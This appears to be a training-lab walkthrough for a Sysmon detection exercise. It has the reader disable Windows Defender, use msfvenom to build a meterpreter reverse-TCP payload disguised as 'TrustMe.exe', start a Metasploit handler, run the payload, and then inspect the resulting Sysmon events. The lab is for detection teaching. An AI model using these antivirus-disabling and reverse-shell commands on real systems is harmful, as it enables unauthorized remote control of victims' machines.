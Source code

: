 
# Sysmon

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Kali terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Once the terminal opens, please run the following command:

<pre>ifconfig</pre>

![](attachments/ifconfig.png)

Please note the IP address of your Ethernet adapter.  

Your IP Address and adapter name may be different.


Now, run the following commands to start a simple backdoor and backdoor listener: 
 

 <pre>sudo su -</pre>


<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 
-f exe -o /mnt/windows-share/TrustMe.exe</pre>

Now, let's start the Metasploit Handler.  First, open a new Kali terminal by clicking the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

<pre>sudo su -</pre>

Now let's start the Metasploit Handler

<pre>msfconsole -q</pre>

Then, we are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, your IP will be different!

<pre>exploit</pre>


It should look like this:

![](attachments/msfconsole.png)

Now, we will need to open an cmd.exe terminal as Administrator.


![](attachments/OpeningWindowsCommandPrompt.png)

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

![](attachments/sysmonexe.png)


let's run the following commands to run the TrustMe.exe file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>


Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)


Now, we need to view the Sysmon events for this malware:

First, open Event Viewer by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find `Sysmon`

![](attachments/eventviwernav2.png)


Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)




















